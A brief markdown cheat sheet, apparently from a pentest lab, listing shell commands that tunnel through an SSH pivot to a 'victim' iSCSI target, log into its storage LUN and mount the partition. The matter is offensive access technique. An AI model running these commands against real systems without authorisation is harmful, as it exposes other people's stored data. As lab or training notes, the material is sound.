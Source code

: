 # ISCSI On the Network

## Dependency Setup
```
apt install open-iscsi
```

## Forward your port to the victim
```
ssh -L 3260:192.168.0.3:3260 d.nash@192.168.101.8

iscsiadm -m discovery -t sendtargets -p 127.0.0.1
iptables -t nat -A OUTPUT -d 192.168.0.3 -j DNAT --to-destination 127.0.0.1
cat /proc/partitions
iscsiadm -m node --targetname=iqn.2016-05.ru.pentestit:storage.lun0 -p 192.168.0.3 --login -d 8
mount -o ro /dev/sdb1 /mnt/
```

## Check which new partitions appeared
```
cat /proc/partitions
```

tags: iscsi
